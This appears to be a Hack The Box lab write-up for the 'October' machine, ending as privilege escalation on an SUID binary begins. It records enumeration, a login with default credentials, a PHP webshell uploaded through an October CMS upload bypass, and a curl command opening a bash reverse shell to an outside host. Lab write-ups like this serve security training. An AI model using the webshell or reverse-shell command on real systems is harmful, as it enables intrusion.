 ```yaml
---
title: "[HTB] Machine: October"
description: "[HTB] Machine: October"
date: 2023-09-10
menu:
  sidebar:
    name: "[HTB] Machine: October"
    identifier: htb-machine-October
    parent: htb-machines-linux
    weight: 10
hero: images/october.png
tags: ["HTB"]
---
```


# October
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.16 -T4                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:39 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.092s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.16 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 17:44 BST
Nmap scan report for 10.10.10.16 (10.10.10.16)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds

```

- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.16/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.16/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/09/10 17:47:42 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 200) [Size: 4253]
/forum                (Status: 200) [Size: 9589]
/themes               (Status: 301) [Size: 310] [--> http://10.10.10.16/themes/]
/modules              (Status: 301) [Size: 311] [--> http://10.10.10.16/modules/]
/tests                (Status: 301) [Size: 309] [--> http://10.10.10.16/tests/]
/storage              (Status: 301) [Size: 311] [--> http://10.10.10.16/storage/]
/plugins              (Status: 301) [Size: 311] [--> http://10.10.10.16/plugins/]
/backend              (Status: 302) [Size: 400] [--> http://10.10.10.16/backend/backend/auth]
/vendor               (Status: 301) [Size: 310] [--> http://10.10.10.16/vendor/]
/config               (Status: 301) [Size: 310] [--> http://10.10.10.16/config/]

```

## Foothold
- From `gobuster` results we see `backend` endpoint
  - Googling also shows that there is a `October CMS`

![](./images/2.png)

- Default creds `admin:admin` works

![](./images/3.png)

- We can now perform https://www.exploit-db.com/exploits/41936
  - We can perform `PHP upload protection bypass` to upload a webshell
  - We can upload `.php5` file with `<?php system($_REQUEST['cmd']); ?>`

![](./images/4.png)

```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=id' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl 'http://10.10.10.16/storage/app/media/shell.php5?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.9/6666+0>%261"' 
```

![](./images/5.png)

## Root
- Running `linpeas`
  - We have unknown suid binary `ovrflw`
  - Probably binary exploitation 

![](./images/6.png)

- `ovrflw`
```
└─$ file ovrflw                
ovrflw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
```
```
└─$ ./ovrflw   
Syntax: ./ovrflw <input string>
```

